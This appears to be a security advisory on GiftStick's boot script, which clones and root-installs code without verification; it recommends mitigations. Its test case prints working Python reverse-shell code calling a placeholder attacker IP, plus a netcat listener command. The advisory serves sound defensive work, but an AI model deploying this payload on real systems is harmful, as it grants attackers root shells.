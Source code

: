 ### Vulnerability List

- Vulnerability Name: Unverified Download of GiftStick Code
- Description:
  - Step 1: The `call_auto_forensicate.sh` script, executed on the target system after booting from the GiftStick USB, initiates a `git clone` command to download the GiftStick source code from `https://github.com/google/GiftStick`.
  - Step 2: This download occurs over HTTPS, which encrypts the communication channel, but the script does not perform any verification of the downloaded code's integrity or authenticity after the cloning process.
  - Step 3: An attacker capable of performing a Man-In-The-Middle (MITM) attack or compromising the GitHub repository `github.com/google/GiftStick` could inject malicious code into the repository.
  - Step 4: Subsequently, the script navigates into the cloned `GiftStick` directory (`cd GiftStick`).
  - Step 5: The script then executes `sudo pip install .`, which installs the Python package from the current directory (the cloned repository). This command runs with root privileges due to `sudo`.
  - Step 6: If malicious code was injected into the cloned repository, `pip install .` will install and execute it with root privileges, leading to system compromise.

- Impact:
  - Critical. Successful exploitation of this vulnerability allows for arbitrary command execution with root privileges on the target system.
  - An attacker can gain full control over the compromised system, enabling them to:
    - Install persistent backdoors for future access.
    - Steal sensitive data from the target system.
    - Modify or delete critical system files.
    - Use the compromised system as a launchpad for further attacks within the network.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
  - None. The project currently lacks any mechanisms to verify the integrity or authenticity of the downloaded GiftStick code within the `call_auto_forensicate.sh` script.

- Missing Mitigations:
  - Implement code verification to ensure the integrity and authenticity of the downloaded GiftStick code before installation. Recommended mitigations include:
    - Verifying Git Commit Hash: Modify `call_auto_forensicate.sh` to clone a specific commit hash of the GiftStick repository and verify this hash against a known, trusted value.
    - Verifying GPG Signature: Implement GPG signature verification for release tags or commits. This involves downloading the GPG signature and public key, and then using `gpg --verify` to validate the signature.
    - Using Release Archives with Checksums/Signatures: Instead of cloning the Git repository, download a pre-packaged release archive (e.g., tar.gz or zip) from the GitHub releases page. Verify the downloaded archive using a detached signature file or a cryptographic checksum (like SHA256) against a known good value published on the official GiftStick website or repository.

- Preconditions:
  - Precondition 1: An attacker must be in a position to execute a Man-In-The-Middle (MITM) attack during the `git clone` operation, or successfully compromise the GitHub repository `github.com/google/GiftStick`.
  - Precondition 2: A target user must create a GiftStick USB drive and boot a target system using this drive.
  - Precondition 3: The target system, after booting from the malicious GiftStick USB, must have an active internet connection to perform the `git clone` operation.

- Source Code Analysis:
  - File: `/code/tools/remaster_scripts/call_auto_forensicate.sh`
  - Step-by-step analysis:
    1. `git clone https://github.com/google/GiftStick`: This command clones the GiftStick repository from GitHub. The script relies on HTTPS for transport security but does not verify the content's integrity.
    2. `cd GiftStick`: Navigates into the cloned directory.
    3. `sudo pip install .`: Installs the GiftStick package from the current directory. This command executes `setup.py` and any other installation scripts within the cloned repository with root privileges.
  - Visualization:
    ```
    Target System (GiftStick Booted) --> Internet (github.com/google/GiftStick) --> Attacker (MITM or Repo Compromise) --> Malicious GiftStick Code --> Target System (Root Compromise via `sudo pip install .`)
    ```

- Security Test Case:
  - Step 1: Set up a controlled network environment where you can simulate a MITM attack or, for testing purposes, directly host a malicious Git repository mimicking `github.com/google/GiftStick`.
  - Step 2: Create a malicious GiftStick repository. In this repository, modify the `auto_forensicate/auto_acquire.py` file to include malicious code. For example, add a simple reverse shell that connects back to an attacker-controlled machine:
    ```python
    # In auto_forensicate/auto_acquire.py
    import os
    import socket
    import subprocess

    # Malicious code: Reverse shell
    def reverse_shell():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(("attacker_ip", 4444)) # Replace attacker_ip
            os.dup2(s.fileno(), 0)
            os.dup2(s.fileno(), 1)
            os.dup2(s.fileno(), 2)
            subprocess.call(["/bin/sh", "-i"])
        except Exception as e:
            pass # Handle exceptions silently in boot scripts

    reverse_shell()

    # ... rest of the original auto_acquire.py code ...
    ```
    **Note**: Replace `"attacker_ip"` with the IP address of your attacker-controlled machine that will listen for the reverse shell connection.
  - Step 3: Configure your network to redirect requests for `github.com` to your malicious server (if simulating MITM) or directly host the malicious repository on a server accessible to the test system.
  - Step 4: Create a GiftStick USB drive using the standard `remaster.sh` script and a clean Xubuntu 20.04 ISO.
  - Step 5: Boot a test system from the created GiftStick USB drive. Ensure this test system is connected to the network where your malicious server is set up and can resolve the (faked or real, depending on test setup) `github.com`.
  - Step 6: On your attacker-controlled machine, set up a netcat listener to receive the reverse shell connection: `nc -lvnp 4444`.
  - Step 7: Observe the boot process of the test system. The `call_auto_forensicate.sh` script should execute, clone the malicious GiftStick repository, and install it.
  - Step 8: Check your netcat listener. You should receive a reverse shell connection from the compromised test system, indicating successful arbitrary code execution with root privileges.

This security test case confirms the vulnerability by demonstrating that a malicious GiftStick can be created to execute arbitrary commands with root privileges on a target system due to the lack of verification of the downloaded code.
